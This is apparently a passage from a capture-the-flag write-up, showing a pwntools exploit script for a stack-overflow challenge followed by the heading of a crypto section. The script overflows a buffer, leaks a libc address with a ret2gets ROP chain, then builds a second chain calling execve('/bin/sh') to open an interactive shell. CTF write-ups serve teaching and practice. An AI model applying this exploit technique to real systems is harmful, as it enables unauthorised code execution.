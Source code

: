 ```
    p.sendlineafter(b'2. Exit', b'2')

# leak libc address, see https://sashactf.gitbook.io/pwn-notes/pwn/rop-2.34+/ret2gets

rop = ROP(context.binary)
rop.call('gets', [])
rop.call('gets', [])
rop.call('puts', [])
rop.call('main', [])
print(rop.dump())

send_payload(
    64*b'A' +
    p64(0) +  # saved rbp
    rop.chain()
)
p.sendline(b"A" * 4 + b"\x00"*3)
p.recvuntil(b'\x41\x41\x41\x41\xff\xff\xff\xff')

tls = u64(p.recvline(keepends=False).ljust(8, b'\x00'))
log.info(f"tls: {hex(tls)}")

libc.address = tls + 0x28c0
log.info(f"libc: {hex(libc.address)}")

log.info(f"system: {hex(libc.symbols['system'])}") 

# mount second ROP now that we have libc address
# libc should have enough gadgets ;D

bin_sh = next(libc.search(b'/bin/sh'))
rop = ROP(libc)
rop.execve(bin_sh, 0, 0)
print(rop.dump())

send_payload(
    64*b'A' +
    p64(0) +  # saved rbp
    rop.chain()
)

p.interactive()
```

# Crypto

Laura aqui! 

## crypto/too-loud-to-yap

